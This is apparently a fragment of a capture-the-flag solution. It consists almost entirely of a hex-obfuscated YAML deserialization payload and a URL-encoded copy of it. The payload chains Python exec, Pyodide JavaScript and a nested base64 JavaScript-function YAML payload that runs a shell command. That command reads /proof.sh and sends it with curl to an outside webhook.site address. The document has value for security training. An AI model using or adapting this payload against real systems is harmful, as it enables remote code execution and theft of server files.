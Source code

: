 Final client-side YAML deserialization payload:

```yaml
!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "\x70\x72\x69\x6e\x74\x28\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f\x28\x27\x70\x79\x6f\x64\x69\x64\x65\x27\x29\x2e\x63\x6f\x64\x65\x2e\x72\x75\x6e\x5f\x6a\x73\x28\x27\x64\x6f\x63\x75\x6d\x65\x6e\x74\x2e\x63\x6f\x6f\x6b\x69\x65\x3d\x22\x64\x65\x62\x75\x67\x3d\x6f\x6e\x22\x3b\x63\x6f\x6e\x73\x74\x20\x64\x61\x74\x61\x3d\x6e\x65\x77\x20\x55\x52\x4c\x53\x65\x61\x72\x63\x68\x50\x61\x72\x61\x6d\x73\x28\x29\x3b\x64\x61\x74\x61\x2e\x61\x70\x70\x65\x6e\x64\x28\x22\x79\x61\x6d\x6c\x22\x2c\x20\x61\x74\x6f\x62\x28\x22\x49\x6e\x52\x76\x55\x33\x52\x79\x61\x57\x35\x6e\x49\x6a\x6f\x67\x49\x54\x78\x30\x59\x57\x63\x36\x65\x57\x46\x74\x62\x43\x35\x76\x63\x6d\x63\x73\x4d\x6a\x41\x77\x4d\x6a\x70\x71\x63\x79\x39\x6d\x64\x57\x35\x6a\x64\x47\x6c\x76\x62\x6a\x34\x67\x49\x6d\x5a\x31\x62\x6d\x4e\x30\x61\x57\x39\x75\x49\x43\x67\x70\x65\x32\x4e\x76\x62\x6e\x4e\x76\x62\x47\x55\x75\x62\x47\x39\x6e\x4b\x48\x42\x79\x62\x32\x4e\x6c\x63\x33\x4d\x75\x62\x57\x46\x70\x62\x6b\x31\x76\x5a\x48\x56\x73\x5a\x53\x35\x79\x5a\x58\x46\x31\x61\x58\x4a\x6c\x4b\x43\x64\x6a\x61\x47\x6c\x73\x5a\x46\x39\x77\x63\x6d\x39\x6a\x5a\x58\x4e\x7a\x4a\x79\x6b\x75\x5a\x58\x68\x6c\x59\x31\x4e\x35\x62\x6d\x4d\x6f\x4a\x32\x4e\x68\x64\x43\x41\x76\x63\x48\x4a\x76\x62\x32\x59\x75\x63\x32\x67\x67\x66\x43\x42\x69\x59\x58\x4e\x6c\x4e\x6a\x51\x67\x4c\x58\x63\x77\x49\x48\x77\x67\x59\x33\x56\x79\x62\x43\x41\x74\x5a\x43\x42\x41\x4c\x53\x42\x6f\x64\x48\x52\x77\x63\x7a\x6f\x76\x4c\x33\x64\x6c\x59\x6d\x68\x76\x62\x32\x73\x75\x63\x32\x6c\x30\x5a\x53\x38\x78\x5a\x47\x56\x6b\x4e\x6a\x41\x78\x5a\x43\x31\x6d\x4d\x32\x59\x78\x4c\x54\x51\x77\x5a\x57\x49\x74\x59\x54\x6b\x35\x59\x79\x31\x68\x59\x6a\x6b\x33\x4e\x44\x59\x7a\x4e\x44\x59\x30\x4d\x6a\x55\x6e\x4b\x53\x35\x30\x62\x31\x4e\x30\x63\x6d\x6c\x75\x5a\x79\x67\x70\x4b\x58\x30\x69\x22\x29\x29\x3b\x66\x65\x74\x63\x68\x28\x22\x2f\x2f\x6c\x6f\x63\x61\x6c\x68\x6f\x73\x74\x3a\x33\x30\x30\x30\x2f\x64\x65\x62\x75\x67\x22\x2c\x7b\x6d\x65\x74\x68\x6f\x64\x3a\x22\x50\x4f\x53\x54\x22\x2c\x62\x6f\x64\x79\x3a\x64\x61\x74\x61\x7d\x29\x27\x29\x29"
```

URL encode the final client-side YAML deserialization payload:

```
%21%21python%2Fobject%2Fnew%3Atype%0A%20%20args%3A%20%5B%22z%22%2C%20%21%21python%2Ftuple%20%5B%5D%2C%20%7B%22extend%22%3A%20%21%21python%2Fname%3Aexec%20%7D%5D%0A%20%20listitems%3A%20%22%5Cx70%5Cx72%5Cx69%5Cx6e%5Cx74%5Cx28%5Cx5f%5Cx5f%5Cx69%5Cx6d%5Cx70%5Cx6f%5Cx72%5Cx74%5Cx5f%5Cx5f%5Cx28%5Cx27%5Cx70%5Cx79%5Cx6f%5Cx64%5Cx69%5Cx64%5Cx65%5Cx27%5Cx29%5Cx2e%5Cx63%5Cx6f%5Cx64%5Cx65%5Cx2e%5Cx72%5Cx75%5Cx6e%5Cx5f%5Cx6a%5Cx73%5Cx28%5Cx27%5Cx64%5Cx6f%5Cx63%5Cx75%5Cx6d%5Cx65%5Cx6e%5Cx74%5Cx2e%5Cx63%5Cx6f%5Cx6f%5Cx6b%5Cx69%5Cx65%5Cx3d%5Cx22%5Cx64%5Cx65%5Cx62%5Cx75%5Cx67%5Cx3d%5Cx6f%5Cx6e%5Cx22%5Cx3b%5Cx63%5Cx6f%5Cx6e%5Cx73%5Cx74%5Cx20%5Cx64%5Cx61%5Cx74%5Cx61%5Cx3d%5Cx6e%5Cx65%5Cx77%5Cx20%5Cx55%5Cx52%5Cx4c%5Cx53%5Cx65%5Cx61%5Cx72%5Cx63%5Cx68%5Cx50%5Cx61%5Cx72%5Cx61%5Cx6d%5Cx73%5Cx28%5Cx29%5Cx3b%5Cx64%5Cx61%5Cx74%5Cx61%5Cx2e%5Cx61%5Cx70%5Cx70%5Cx65%5Cx6e%5Cx64%5Cx28%5Cx22%5Cx79%5Cx61%5Cx6d%5Cx6c%5Cx22%5Cx2c%5Cx20%5Cx61%5Cx74%5Cx6f%5Cx62%5Cx28%5Cx22%5Cx49%5Cx6e%5Cx52%5Cx76%5Cx55%5Cx33%5Cx52%5Cx79%5Cx61%5Cx57%5Cx35%5Cx6e%5Cx49%5Cx6a%5Cx6f%5Cx67%5Cx49%5Cx54%5Cx78%5Cx30%5Cx59%5Cx57%5Cx63%5Cx36%5Cx65%5Cx57%5Cx46%5Cx74%5Cx62%5Cx43%5Cx35%5Cx76%5Cx63%5Cx6d%5Cx63%5Cx73%5Cx4d%5Cx6a%5Cx41%5Cx77%5Cx4d%5Cx6a%5Cx70%5Cx71%5Cx63%5Cx79%5Cx39%5Cx6d%5Cx64%5Cx57%5Cx35%5Cx6a%5Cx64%5Cx47%5Cx6c%5Cx76%5Cx62%5Cx6a%5Cx34%5Cx67%5Cx49%5Cx6d%5Cx5a%5Cx31%5Cx62%5Cx6d%5Cx4e%5Cx30%5Cx61%5Cx57%5Cx39%5Cx75%5Cx49%5Cx43%5Cx67%5Cx70%5Cx65%5Cx32%5Cx4e%5Cx76%5Cx62%5Cx6e%5Cx4e%5Cx76%5Cx62%5Cx47%5Cx55%5Cx75%5Cx62%5Cx47%5Cx39%5Cx6e%5Cx4b%5Cx48%5Cx42%5Cx79%5Cx62%5Cx32%5Cx4e%5Cx6c%5Cx63%5Cx33%5Cx4d%5Cx75%5Cx62%5Cx57%5Cx46%5Cx70%5Cx62%5Cx6b%5Cx31%5Cx76%5Cx5a%5Cx48%5Cx56%5Cx73%5Cx5a%5Cx53%5Cx35%5Cx79%5Cx5a%5Cx58%5Cx46%5Cx31%5Cx61%5Cx58%5Cx4a%5Cx6c%5Cx4b%5Cx43%5Cx64%5Cx6a%5Cx61%5Cx47%5Cx6c%5Cx73%5Cx5a%5Cx46%5Cx39%5Cx77%5Cx63%5Cx6d%5Cx39%5Cx6a%5Cx5a%5Cx58%5Cx4e%5Cx7a%5Cx4a%5Cx79%5Cx6b%5Cx75%5Cx5a%5Cx58%5Cx68%5Cx6c%5Cx59%5Cx31%5Cx4e%5Cx35%5Cx62%5Cx6d%5Cx4d%5Cx6f%5Cx4a%5Cx32%5Cx4e%5Cx68%5Cx64%5Cx43%5Cx41%5Cx76%5Cx63%5Cx48%5Cx4a%5Cx76%5Cx62%5Cx32%5Cx59%5Cx75%5Cx63%5Cx32%5Cx67%5Cx67%5Cx66%5Cx43%5Cx42%5Cx69%5Cx59%5Cx58%5Cx4e%5Cx6c%5Cx4e%5Cx6a%5Cx51%5Cx67%5Cx4c%5Cx58%5Cx63%5Cx77%5Cx49%5Cx48%5Cx77%5Cx67%5Cx59%5Cx33%5Cx56%5Cx79%5Cx62%5Cx43%5Cx41%5Cx74%5Cx5a%5Cx43%5Cx42%5Cx41%5Cx4c%5Cx53%5Cx42%5Cx6f%5Cx64%5Cx48%5Cx52%5Cx77%5Cx63%5Cx7a%5Cx6f%5Cx76%5Cx4c%5Cx33%5Cx64%5Cx6c%5Cx59%5Cx6d%5Cx68%5Cx76%5Cx62%5Cx32%5Cx73%5Cx75%5Cx63%5Cx32%5Cx6c%5Cx30%5Cx5a%5Cx53%5Cx38%5Cx78%5Cx5a%5Cx47%5Cx56%5Cx6b%5Cx4e%5Cx6a%5Cx41%5Cx78%5Cx5a%5Cx43%5Cx31%5Cx6d%5Cx4d%5Cx32%5Cx59%5Cx78%5Cx4c%5Cx54%5Cx51%5Cx77%5Cx5a%5Cx57%5Cx49%5Cx74%5Cx59%5Cx54%5Cx6b%5Cx35%5Cx59%5Cx79%5Cx31%5Cx68%5Cx59%5Cx6a%5Cx6b%5Cx33%5Cx4e%5Cx44%5Cx59%5Cx7a%5Cx4e%5Cx44%5Cx59%5Cx30%5Cx4d%5Cx6a%5Cx55%5Cx6e%5Cx4b%5Cx53%5Cx35%5Cx30%5Cx62%5Cx31%5Cx4e%5Cx30%5Cx63%5Cx6d%5Cx6c%5Cx75%5Cx5a%5Cx79%5Cx67%5Cx70%5Cx4b%5Cx58%5Cx30%5Cx69%5Cx22%5Cx29%5Cx29%5Cx3b%5Cx66%5Cx65%5Cx74%5Cx63%5Cx68%5Cx28%5Cx22%5Cx2f%5Cx2f%5Cx6c%5Cx6f%5Cx63%5Cx61%5Cx6c%5Cx68%5Cx6f%5Cx73%5Cx74%5Cx3a%5Cx33%5Cx30%5Cx30%5Cx30%5Cx2f%5Cx64%5Cx65%5Cx62%5Cx75%5Cx67%5Cx22%5Cx2c%5Cx7b%5Cx6d%5Cx65%5Cx74%5Cx68%5Cx6f%5Cx64%5Cx3a%5Cx22%5Cx50%5Cx4f%5Cx53%5Cx54%5Cx22%5Cx2c%5Cx62%5Cx6f%5Cx64%5Cx79%5Cx3a%5Cx64%5Cx61%5Cx74%5Cx61%5Cx7d%5Cx29%5Cx27%5Cx29%5Cx29%22
```
